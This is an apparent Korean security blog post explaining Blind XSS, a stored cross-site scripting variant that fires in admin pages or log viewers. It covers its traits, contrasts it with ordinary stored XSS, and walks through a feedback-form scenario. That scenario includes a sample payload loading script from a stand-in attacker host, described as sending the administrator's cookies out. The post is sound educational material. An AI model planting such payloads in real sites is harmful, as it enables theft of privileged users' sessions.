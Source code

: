 ```yaml
---
layout: post
title:  "[웹 모의해킹] Blind XSS 란?"
date:   2025-07-10 21:50:00 +0900
categories: [Security]
tags: [xss, blind xss, 블라인드 xss]
---
```



# [웹 모의해킹] Blind XSS 란?

## 1. 블라인드 XSS(Blind XSS)란?

<aside>

- 블라인드 XSS는 공격자가 삽입한 악성 스크립트가 **공격자에게 보이지 않는 다른 시스템이나 페이지에서 실행**되는 공격 기법
- 마치 편지를 써서 병에 담아 바다에 띄워 보내는 것과 같아요. 공격자는 이 편지(악성 스크립트)를 
누가, 언제, 어디서 열어볼지(실행될지) 전혀 알 수 없습니다. 그래서 '눈이 먼(Blind)'이라는 이름이 붙었죠. 🙈
</aside>

<aside>

### **주요 특징**

- **저장형 XSS의 하위 개념**
    - 악성 스크립트가 서버(데이터베이스, 로그 파일 등)에 저장된다는 점에서 저장형 XSS와 동일합니다.
- **예측 불가능한 실행 위치**
    - 스크립트가 일반 사용자 페이지가 아닌, **관리자 페이지, 내부 모니터링 시스템, 로그 분석기** 등 예상치 못한 곳에서 실행됩니다.
- **긴 잠복기**
    - 공격 스크립트가 삽입된 후 실행되기까지 몇 시간, 며칠, 심지어 몇 달이 걸릴 수도 있습니다.

---

</aside>

## 2. 일반적인 저장형 XSS와의 차이점

알고 계신 일반적인 저장형 XSS와 블라인드 XSS의 가장 큰 차이점은 **'결과 확인의 즉시성'** 입니다.

| **구분** | **일반 저장형 XSS (Stored XSS)** | **블라인드 XSS (Blind XSS)** |
| --- | --- | --- |
| **실행 위치** | 공격자가 **예측 가능한 페이지** (예: 게시판, 댓글) | 공격자가 **예측 불가능한 페이지** (예: 관리자 페이지, 로그 뷰어) |
| **결과 확인** | 공격자가 해당 페이지에 접속하여 스크립트 실행 결과를 **직접 확인 가능** | 공격자는 실행 결과를 **직접 볼 수 없음**. 외부 **콜백(Callback)을 통해 실행 여부만 확인.** |
| **공격 대상** | 주로 해당 페이지를 방문하는 **일반 사용자** | **관리자, 개발자, 내부 직원 등 높은 권한을 가진 사용자**일 확률이 높음 |

---
<br>

## 3. 간단한 공격 시나리오 예시

1. **공격자:** 웹사이트의 '고객 의견' 폼에 악성 스크립트가 포함된 피드백을 제출합니다. 
2. 이 스크립트는 실행되면 공격자의 서버로 알림을 보내도록 설계되어 있습니다.

``` python
    - `이름: 해커`
    - `의견: 서비스가 좋네요. <script src="http://attacker.com/xss.js"></script>`
```
3. **서버:** 공격자가 보낸 피드백을 데이터베이스에 저장합니다. 이때까지는 아무 일도 일어나지 않습니다.

1. **관리자:** 며칠 후, 내부 관리자 페이지에서 고객들이 보낸 피드백을 확인합니다.

1. **실행:** 관리자의 브라우저가 데이터베이스에 저장된 공격자의 피드백을 불러와 화면에 표시하는 순간, 숨어있던 `<script>` 태그가 실행됩니다.

2. **알림:** 스크립트가 실행되면서 공격자의 서버로 "XSS 성공!"이라는 알림과 함께 관리자의 쿠키 정보 등을 전송합니다. 공격자는 이 알림을 받고 공격이 성공했음을 인지하게 됩니다.

---

이처럼 블라인드 XSS는 탐지가 어렵고, 주로 높은 권한을 가진 내부 시스템에서 발생하기 때문에 한번 성공하면 매우 치명적인 피해를 줄 수 있는 위협적인 공격입니다.


---
